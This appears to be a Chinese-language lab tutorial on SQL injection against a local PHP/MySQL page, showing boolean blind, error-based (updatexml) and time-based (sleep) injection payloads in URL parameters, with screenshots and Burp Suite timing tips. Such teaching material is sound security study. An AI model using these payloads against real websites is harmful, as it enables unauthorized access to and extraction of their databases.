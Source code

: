 ```plain
只是执行了这个语句，并不会显示。
显示代码：
while($row=mysql_fetch_array($result)){
    echo '<br><br><hr>';
    echo $row['id'];
    echo $row['gName'];
    
 如果注释了这个代码，那么他不会进行显示
```

![1645187997377-7701732a-27ea-45f3-8622-6748211e6ff7.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132922558-1806289422.png)

```plain
如果没有显示，这个时候就采用盲注来进行攻击
```

布尔

```plain
布尔盲注：---逻辑判断
函数：regexp,like,ascii,left,ord,mid
判断数据库名字是否为7，判断数据库长度
127.0.0.1:8081/web/mysql/news.php?id=1 and length(database())=1
页面错误
```

![1645188591414-2b9459dd-df48-48c0-99c6-9445e8119f3c.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132921398-1183445212.png)

```plain
如果是正确的数据库长度，127.0.0.1:8081/web/mysql/news.php?id=1 and length(database())=11
页面就正常显示
```

![1645188628949-4da20893-882a-4d30-80d6-3c2459804d65.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132922048-263856296.png)

报错

```plain
SQL语句在执行的时候，$result=mysql_query($sql,$conn) or die(mysql_error());这样写才可以生效，容错处理。
语句参考：https://www.jianshu.com/p/bc35f8dd4f7c
127.0.0.1:8081/web/mysql/news.php?id=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```

![1645190790234-710fa179-69df-412e-8827-9a4c0c1696f5.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132921759-496581881.png)

延时

```plain
延时盲注：
判断标准：先判断初始化的时间，然后在进行延迟测试判断的时间，两个时间的不同来进行判断是否有延迟
127.0.0.1:8081/web/mysql/news.php?id=1 and if(1=1,sleep(5),0)
一般结合布尔盲注来进行测试，在1=1做文章。
判断是否延迟，主要看两个不同数据包的返回包时间差，在burpsuite下的右下角
```

![1645189351031-5541a13d-77a9-4c66-91ee-caf0bad5fa0d.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132920953-638062956.png)
